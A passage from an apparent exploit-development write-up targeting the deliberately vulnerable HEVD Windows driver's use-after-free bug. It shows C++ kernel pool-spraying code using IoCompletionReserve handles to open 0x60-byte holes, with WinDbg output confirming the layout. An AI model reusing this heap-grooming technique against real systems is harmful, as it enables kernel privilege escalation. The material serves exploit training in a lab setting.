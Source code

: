 ```cpp
        }
        sequential_handles.push_back(hObject);
    }

    cout << "[>] Sequential spray complete.\n";

    cout << "[>] Poking 0x60 byte-sized holes in our sequential allocation...\n";
    for (int i = 0; i < sequential_handles.size(); i++) {
        if (i % 2 == 0) {
            BOOL freed = CloseHandle(sequential_handles[i]);
        }
    }
    cout << "[>] Holes poked lol.\n";
    cout << "[>] Some handles: " << hex << sequential_handles[29997] << "\n";
    cout << "[>] Some handles: " << hex << sequential_handles[29998] << "\n";
    cout << "[>] Some handles: " << hex << sequential_handles[29999] << "\n";

    Sleep(1000);
    DebugBreak();
}

int main() {

    HANDLE hFile = grab_handle();

    //create_UAF_object(hFile);

    //free_UAF_object(hFile);

    //allocate_fake_object(hFile);

    spray();

    return 0;
}

```

We can see after running this and looking at one of the handles we dumped to the terminal (thanks FuzzySec!), we were able to get our pool looking the way we want. `0x60` byte chunks free surrounded by our IoCo objects. 
```
kd> !handle 0x2724c

PROCESS 86974250  SessionId: 1  Cid: 1238    Peb: 7ffdf000  ParentCid: 1554
    DirBase: bf5d4fc0  ObjectTable: abb08b80  HandleCount: 25007.
    Image: HEVDUAF.exe

Handle table at 89f1f000 with 25007 entries in use

2724c: Object: 8543b6d0  GrantedAccess: 000f0003 Entry: 88415498
Object: 8543b6d0  Type: (84ff1a88) IoCompletionReserve
    ObjectHeader: 8543b6b8 (new version)
        HandleCount: 1  PointerCount: 1


kd> !pool 8543b6d0 
Pool page 8543b6d0 region is Nonpaged pool
 8543b000 size:   60 previous size:    0  (Allocated)  IoCo (Protected)
 8543b060 size:   38 previous size:   60  (Free)       `.C.
 8543b098 size:   20 previous size:   38  (Allocated)  ReTa
 8543b0b8 size:   28 previous size:   20  (Allocated)  FSro
 8543b0e0 size:  500 previous size:   28  (Free)       Io  
 8543b5e0 size:   60 previous size:  500  (Allocated)  IoCo (Protected)
```